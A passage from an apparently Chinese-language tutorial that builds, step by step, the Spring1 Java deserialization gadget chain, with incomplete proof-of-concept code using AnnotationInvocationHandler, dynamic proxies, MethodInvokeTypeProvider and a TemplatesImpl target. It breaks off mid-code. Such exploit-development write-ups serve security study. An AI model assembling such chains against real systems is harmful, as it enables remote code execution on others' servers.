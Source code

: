 所以我们接着在原来残缺的POC上进行构造：

```java
public static void main(String[] args) throws Exception {

    // 因为AnnotationInvocationHandler是一个注解，所以无法通过正常方式new出来
    // 这里是使用反射的方式来进行创建
    Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
    aihCtor.setAccessible(true);

    Map<String, Object> map = new HashMap<>();
    // 此时我们往这个map塞入一个键为 getType的 xxxxxxxxxx
    // 就能使得在触发动态代理的getType方法时能够返回xxxxxxxxxx这个Object
    // 但此时我们还不知道xxxxxxxxxx该怎么构造
    map.put("getType", xxxxxxxxxx);
    InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    Object typeProviderProxy = Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


    // -----------------下边的这段代码就不用关注了-----------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
    field.set(mitp, "getOutputProperties");
}
```

在上边的这份代码中就能让`MethodInvokeTypeProvider`中的`this.provider.getType()`方法了，但是还没有完。

因为`getType()`方法返回的是一个`Type`接口，我们直接把`TemplatesImpl`塞进去是不行的，因为`TemplatesImpl`无法被转换为`Type`接口。

所以现在我们希望一个类既实现了`Type`又实现了`Templates`接口（`getOutputProperties`和`newTransformer`方法都被定义在这个接口中），但很显然这是不可能的。（为什么这里还要实现`Templates`接口呢？这是因为在`MethodInvokeTypeProvider`中我们需要调用这个类的`getOutputProperties`或者`newTransformer`方法

这个问题通过动态代理还是可以解决，我们通过动态代理代理这两个接口就行了。

然后我们继续在上边的残缺POC上加入一个代理了两个接口的动态代理：

```java
public static void main(String[] args) throws Exception {
    // 按理来说，这里的xxxxxxxxxx如果能塞进来一个TemplatesImpl对象，此时我们就能完成攻击链的构造了
    // 很不巧，newProxyInstance的第三个参数是一个必须要实现InvocationHandler接口的动态代理实现类
    // 而TemplatesImpl对象是没有实现这个接口的
    Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{Type.class, Templates.class}, xxxxxxxxxx);

    Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
    aihCtor.setAccessible(true);

    Map<String, Object> map = new HashMap<>();
    // 此时map中的Object就是我们实现了Type和Templates这两个接口的实例了
    map.put("getType", typeTemplatesProxy);
```